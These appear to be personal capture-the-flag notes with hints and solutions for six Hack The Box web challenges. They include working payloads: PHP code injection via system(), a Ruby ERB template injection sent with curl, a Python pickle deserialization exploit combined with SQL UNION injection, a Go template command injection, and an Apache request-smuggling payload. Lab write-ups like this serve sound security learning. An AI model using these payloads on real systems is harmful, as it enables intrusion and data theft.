 **01 web_lovetok:**
    Link: https://app.hackthebox.com/challenges/lovetok
    Hint/Solution "?format=${system(@_GET[cmd]}&cmd=ls ../"
    Explanation: 
    A. http://178.62.11.21:30505/: This is the base URL.
    B. ?format=$_{system($_GET[1])}: This part of the URL suggests an attempt to inject code. 
    C. It looks like it's trying to use the system function in PHP to execute a command specified in the $_GET[1] parameter.
    D. &1=ls+/: The &1=ls+/ part is likely an attempt to pass the command ls+/ as the value for the $_GET[1] parameter. 
    E. This command typically lists the files and directories in a Unix/Linux system.

**02 Toxic:** cookie to base64
    Link: https://app.hackthebox.com/challenges/toxic
    Hint: Cache is Encoded With Base64 and LFI to RCE via Header Injection.
    Solution: https://dhanush-ramuk.medium.com/toxic-hackthebox-challenge-walkthrough-easy-5629d066c127
 
**03 Neonify:**
    Link: https://app.hackthebox.com/challenges/neonify
    Hint: Encode With url Encoding.
           <%= File.open('flag.txt').read %> # Read file
    Solution: curl 159.65.20.166:32127 \        
		-s -X POST -d 'neon=a
		%3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' | grep -Eo 'HTB{.*}'
    Explanation: https://drt.sh/posts/htb-neonify/
    
**05 COP:**
    Link: https://app.hackthebox.com/challenges/cop
    Hint: No Flag value in DB, use script
		import pickle
		import base64
		import os
		payload = 'cp flag.txt application/static/.'
		class RCE:
		    def __reduce__(self):
			return os.system, (payload,)
		if __name__ == '__main__':
		    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
	Steps:
		run script on local copy the <value> output and 
		add to the url like 
		target/1' UNION SELECT '<VALUE>
    Solution: https://drt.sh/posts/htb-cop/

**06 Render Quest:**
    Link: https://app.hackthebox.com/challenges/renderquest
    Hint: Prepare A malicious Like that can have Command in it
	A. go https://webhook.site/    	
	B. Preaper Request with Respond Body of {{.FetchServerInfo "ls -la"}}
	C. Modify it as you go
    Solution: https://medium.com/@tanish.saxena26/hackthebox-renderquest-cf6c493d7b83

**07 ApacheBlaze:**
    Link: https://app.hackthebox.com/challenges/ApacheBlaze
    Hint: CVE-2023–25690 (https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)

    	GET /api/games/click_topia HTTP/1.1
	Host: dev.apacheblaze.local


	GET / HTTP/1.1
	Host: localhost:1337
	{
		Reminder for encoding : 

		\r\n     ->  %0d%0a
		\r\n\r   ->  %0d%0a%0d
	}
	After Url Encoding
	GET 
	/api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
	Host: localhost:1337
    Solution: https://medium.com/@reinhardt.pwn/hackthebox-challenge-write-up-apacheblaze-a32643f19c45
    

